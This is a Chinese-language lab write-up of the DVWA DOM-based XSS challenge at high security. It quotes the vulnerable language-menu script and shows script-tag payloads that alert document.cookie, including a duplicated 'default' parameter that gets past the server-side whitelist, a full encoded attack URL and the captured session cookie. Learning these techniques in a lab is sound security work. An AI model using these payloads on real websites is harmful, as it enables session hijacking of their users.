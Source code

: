 # DOM Based Cross Site Scripting (XSS)

> The developer is now white listing only the allowed languages, you must find a way to run your code without it going to the server.


使用之前在中等難度的解法也 ok

```
default=English&<script>alert(document.cookie)</script>
```

### 觀察

不過這次也有找到新的方式執行 javascript

先來看一下處理選單的 javascript

```bash
<form name="XSS" method="GET">
  <select name="default">
    <script>
      if (document.location.href.indexOf("default=") >= 0) {
        var lang = document.location.href.substring(
          document.location.href.indexOf("default=") + 8
        ); // English
        document.write(
          "<option value='" + lang + "'>" + decodeURI(lang) + "</option>"
        );
        document.write("<option value='' disabled='disabled'>----</option>");
      }

      document.write("<option value='English'>English</option>");
      document.write("<option value='French'>French</option>");
      document.write("<option value='Spanish'>Spanish</option>");
      document.write("<option value='German'>German</option>");
    </script>
  </select>
  <input type="submit" value="Select" />
</form>

```
可以發現它先透過 `indexOf` 來擷取 URL 上字串 `default=` 的字串開頭位置 (45)

將它 +8 個字元的長度 (就是 ‘default=’ 的長度 ) 後傳給 location.href.substring 就可以切除字串取想要的部分，也就是指定語言的部分

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/68aec075-de28-4bd1-8c0b-6f1cf09e5234/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T051803Z&X-Amz-Expires=86400&X-Amz-Signature=61e8f23b61705cb0cda96927ccd37ace93fcf4c8ecf999d3b921d3ca981f949d&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

那我們也許可以試著新增一個同樣的參數來捏照合法參數 🤔

這樣一來後端可能就會只檢查其中一個參數

在原本的 `?default=English` 之前再塞入一個 `?default=English2`

```bash
?default=English2&default=English
```

```bash
http://dvwa.localtest/vulnerabilities/xss_d/?default=English2&default=English
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/44d2d4d6-1c24-4671-b6f4-daad8bd605ab/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T051829Z&X-Amz-Expires=86400&X-Amz-Signature=db6440f5782ac8c6df2533a5dbaabc5b0c24886d4646c61f1247ffad4cc15a27&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

👉 成功，代表後端會檢查最後一個參數，而前端的 indexOf 則是指擷取碰到的第一個參數

```
?default=English<script>alert(document.cookie)</script>&default=English
```

```
http://dvwa.localtest/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(document.cookie)%3C/script%3E&default=English
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/3f6aa90d-f14c-4fac-9633-ce91e7b9d649/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T051859Z&X-Amz-Expires=86400&X-Amz-Signature=2841d536a7e25c38ac15613e70b4bda0831c2fffcfe7b98cd832e5e021b58302&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```
PHPSESSID=ov64qqshkod7693old2kdk59e3; security=high
```

### impossible

在 impossible 難度下測試無效 😮‍💨

```jsx
http://dvwa.localtest/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(document.cookie)%3C/script%3E&default=English
```

